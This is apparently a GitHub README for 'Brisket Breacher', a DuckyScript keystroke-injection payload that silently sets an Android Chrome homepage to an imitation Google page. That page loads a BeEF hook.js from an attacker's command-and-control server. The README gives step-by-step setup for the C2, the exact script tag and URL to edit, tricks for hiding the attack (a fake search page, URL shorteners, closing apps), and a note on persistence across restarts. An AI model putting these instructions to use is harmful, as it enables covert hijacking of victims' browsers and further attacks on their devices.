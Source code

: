 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Title:** Brisket_Breacher

**Author:** OSINTI4L

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
## Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box
1. Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  
2. Install BeEF:
    - `sudo apt install beef-xss -y`
     
3. Download the [homepage.html](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/homepage.html) file (described next). This will be the homepage that our malicious URL will point to and deliver the BeEF C2 hook.
    - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file. E.g., `<script src="http://192.168.8.100:3000/hook.js"></script>`.
    - Become root: `sudo su`.
    - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

4. Start BeEF:
    - `sudo beef-xss`.
   -----
## The homepage
The homepage was designed to imitate a typical Google Search landing page. Multiple features were added in an attempt to help obfuscate the fact that it is a *malicious* homepage. The homepage also delivers the BeEF C2 hook.
  - Features:
    - BeEF C2 hook delivery.
    - Dark and Light mode variations that will render according to device settings.
    - A useable search bar and buttons that will forward the user input as a Google search request.

![googlesearch](https://github.com/user-attachments/assets/1a428553-52d5-417b-aabb-5fc053c33ea8)

## payload.txt
The [payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/payload.txt) file is the delivery system for configuration of the Google Chrome browser.

**The URL pointing to the BeEF C2 must be defined in line 7 of the payload.txt.** The URL to the BeEF C2 is the following: `http://x.x.x.x:3000/demos/homepage.html` (replacing the IP parameter with the IP address of the attacker machine). E.g., `http://192.168.8.100:3000/demos/homepage.html`. This will point to the homepage.html file that has been previously configured during the BeEF C2 setup stage.

An additional layer of obfuscation can be had by utilizing a URL shortening service (e.g., [Tinyurl](https://tinyurl.com/)). After placing the `http://x.x.x.x:3000/demos/homepage.html` URL into the shortener, you will then use the shortened URL as the constant defined in line 7.

The payload workflow is as follows:
  - Chrome browser is opened.
  - A new tab is opened to ensure the proper browser environment is present for the script to run without issues.
  - The browser is then navigated to the settings menu where the malicious BeEF C2 URL is placed.
  - All tabs are then closed.
  - All applications are then closed and the phone returns to the home screen. This is necessary for obfuscation purposes and to allow the browser to automatically navigate to the malicious homepage when opened.

![demo](https://github.com/user-attachments/assets/89d853d8-ec2c-4ca9-9cee-46ca4f33aab6)
